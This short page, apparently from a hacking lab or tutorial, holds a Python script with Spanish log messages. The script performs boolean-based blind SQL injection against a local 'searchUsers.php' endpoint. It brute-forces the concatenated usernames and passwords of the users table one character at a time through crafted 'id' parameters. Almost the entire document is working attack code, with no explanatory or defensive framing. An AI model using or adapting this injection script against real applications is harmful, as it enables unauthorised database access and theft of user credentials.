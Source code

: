 ## Script username-password

```python
#!/usr/bin/env python3

import requests
import signal
import sys
import time
from pwn import *
import string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables globales

main_url = "http://localhost/searchUsers.php"
characters = string.printable

def makeSQLI():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    p2 = log.progress("Datos recopilados:")

    extracted_info = ""

    time.sleep(2)

    for position in range(1, 100):
        for character in range(33,126):
            sqli_url = main_url + "?id=9 or (select(select ascii(substring((select group_concat(username,0x3a,password) from users),%d,1)) from users where id = 1)=%d)" % (position, character)

            r = requests.get(sqli_url)
            
            if r.status_code == 200:
                extracted_info += chr(character)
                p2.status(extracted_info)
                break

if __name__ == '__main__':

    makeSQLI()
```
